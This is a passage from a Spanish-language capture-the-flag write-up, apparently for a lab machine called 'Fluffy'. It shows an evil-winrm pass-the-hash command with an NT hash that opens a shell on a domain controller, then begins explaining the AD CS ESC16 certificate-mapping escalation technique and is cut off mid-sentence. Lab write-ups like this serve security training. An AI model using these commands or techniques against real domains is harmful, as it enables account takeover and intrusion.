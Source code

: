 
## Shell as `winrm_svc`

Con el hash NT de la cuenta `winrm_svc`, podemos hacer PassTheHash para conectarnos remotamente al Controlador de Dominio utilizando el protocolo `WinRM`

~~~ bash
evil-winrm -i 10.10.11.69 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
~~~

En este punto ya podemos ver la flag del usuario sin privilegios

~~~ bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> type ..\Desktop\user.txt 
edb...
~~~
<br>
# Escalada de Privilegios
---
## Abusing AD CS - `ESC16` Technique

ESC16 es una técnica de post-explotación que abusa del servicio AD CS (`Active Directory Certificate Services`), permitiendo eludir la validación de certificados y escalar privilegios a través de plantillas de certificados con configuraciones inseguras.

### Understanding Vulnerability

ESC16 aprovecha una configuración en la que la `CA` globalmente deshabilita la inclusión de `szOID_NTDS_CA_SECURITY_EXT` (su valor OID es `1.3.6.1.4.1.311.25.2`) en todos los certificados que emite. 

> CA son las siglas de Autoridad de Certificación (Certification Authority), una entidad de confianza que emite y administra certificados digitales para usuarios, equipos y servicios dentro de un dominio de Active Directory, validando sus identidades y permitiendo comunicaciones seguras.
{: .notice--info}

Esta extensión SID es vital para un "mapeo estricto de certificados" (`Strong Certificate Mapping`) en AD CS, debido a que permite al Controlador de Dominio asignar un certificado al SID de la cuenta de un usuario para su autenticación. 

El problema se debe a que cuando se añade el OID de esta extensión en el valor `DisableExtensionList` de la siguiente clave de registro 
